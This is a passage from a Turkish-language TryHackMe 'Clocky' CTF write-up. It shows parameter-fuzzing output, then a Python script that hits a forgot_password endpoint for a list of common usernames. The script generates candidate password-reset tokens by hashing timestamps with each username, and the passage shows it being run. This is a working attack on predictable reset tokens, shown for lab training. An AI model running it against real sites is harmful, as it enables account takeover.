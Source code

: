````console
user                    [Status: 200, Size: 26, Words: 2, Lines: 1, Duration: 83ms]
file                    [Status: 200, Size: 26, Words: 2, Lines: 1, Duration: 84ms]
token                   [Status: 200, Size: 22, Words: 2, Lines: 1, Duration: 85ms]
page                    [Status: 200, Size: 26, Words: 2, Lines: 1, Duration: 86ms]
````

"token" parametresi farklı bir çıktı döndürüyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Clocky/images/15.png?raw=true)

Gereken token'ı nasıl bulacağımı bilmiyordum. Github'da bu CTF için yazılmış bir [script](https://github.com/SwartzSego/TryHackMe_Clocky_CTF/blob/main/Clocky_CTF.py) ile karşılaştım.

````
import requests
import hashlib
import datetime

usernames=['root','admin','test','guest','info','adm','mysql','user','administrator','oracle','ftp','pi','puppet','ansible','ec2-user','vagrant','azureuser','jane','clarice']

#Correct username is administrator
for x in usernames:
	data={'username':x}
	requests.post('http://<IP-ADDR-HERE>/forgot_password',data=data) #Change ip address
	value=datetime.datetime.now(datetime.timezone.utc)
	user1=x
	for i in range(10):
		time = str(value)[:-14]+str(i)+"."
		for i in range(100):
			if(i<10):
				lnk = time+"0"+str(i)+" . " + user1.upper()
				lnk = hashlib.sha1(lnk.encode("utf-8")).hexdigest()
				with open('hashes.txt','a') as hashes:
					hashes.write(lnk+'\n')
				
			else:
				lnk = time+str(i)+" . " + user1.upper() 
				lnk = hashlib.sha1(lnk.encode("utf-8")).hexdigest()
				with open('hashes.txt','a') as hashes:
					hashes.write(lnk+'\n')
				
				
print('Check hashes.txt')
````

Script kısaca forgot_password'a bir post request'i atıyor ve bu post request'inin zamanını yakalayarak kullancı adları için bir token oluşturuyor. Oluşturulan token'ları hashes.txt dosyasına kaydediyor.

Script'i çalıştıralım.

````
┌──(root㉿kali)-[~/Downloads]
└─# python3 Clocky_CTF.py
Check hashes.txt
````
